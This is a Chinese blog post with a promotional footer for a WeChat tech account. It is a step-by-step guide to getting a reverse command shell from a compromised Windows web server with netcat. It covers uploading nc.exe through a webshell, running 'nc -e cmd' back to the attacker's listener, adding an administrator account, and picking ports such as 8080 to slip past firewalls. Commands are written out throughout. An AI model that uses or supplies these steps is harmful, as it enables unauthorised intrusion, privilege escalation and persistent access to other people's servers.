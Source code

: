 ```yaml
---
layout: post
category: curleyg-code-hack
title: NC反弹CMDSHELL提权总结
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: NC反弹CMDSHELL提权总结
lock: need
---
```


#  NC反弹CMDSHELL提权总结

Server-U等都不可以用的情况下.  一般都可思考用此方法
 不过这种方法, 只要对方装了防火墙, 或是屏蔽掉了除常用的那几个端口外的所有端口…  那么这种方法也失效了….

1:通过shell将上传NC和CMD传到站点目录下(这里一定上传的注意权限,最好是可读写目录下)
 web目录都是有写有读的权限,我们直接传NC进去

![img](https://img-blog.csdnimg.cn/20181231145050556.jpg)



2:然后本地执行nc -vv -lp 52进行反弹

![img](https://img-blog.csdnimg.cn/20181231145122207.jpg)

3:在shell命令下执行

F:\wwwroot\img\nc.exe -e cmd上传路径 IP(外网IP) 52(这里是本机端口)

![img](https://img-blog.csdnimg.cn/20181231145154571.jpg)

4:在shell里执行命令后,马上看到本地CMS里已经反弹上去了,执行net user 也是成功.

![img](https://img-blog.csdnimg.cn/20181231145225477.jpg)

5:直接添加用户,然后远程去连接!

![img](https://img-blog.csdnimg.cn/20181231145257596.jpg)

看到添加成功,也设置为管理组了!接下来直接远程连接就OK!

不少人NC提权没有成功过，因为其中的原因是你没有降低权限，而导致了NC提权失败

**失败总结：**

1.反弹端口

网上不少文章写 反弹端口445 110 什么的，你当防火墙白痴是不是，我建议看一下端口有没有8080端口，如果没有8080端口的话，要反弹8080端口，这样被防火墙阻止的概率较小

2.降低运行权限

1.现在本地监听一个端口

```bash
nc -vv -l -p 8080 //最好是80或8080这样的端口，被防火墙拦截的几率很小。
```

2.在WebShell运行下面命令连接我们监听的端口得到CmdShell:

```bash
nc -vv IP 8080 -e C:\Documents and Settings\All  Users\Documents\cmd.exe //假设cmd.exe是上传在"C:\Documents and Settings\All  Users\Documents\"这个目录
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
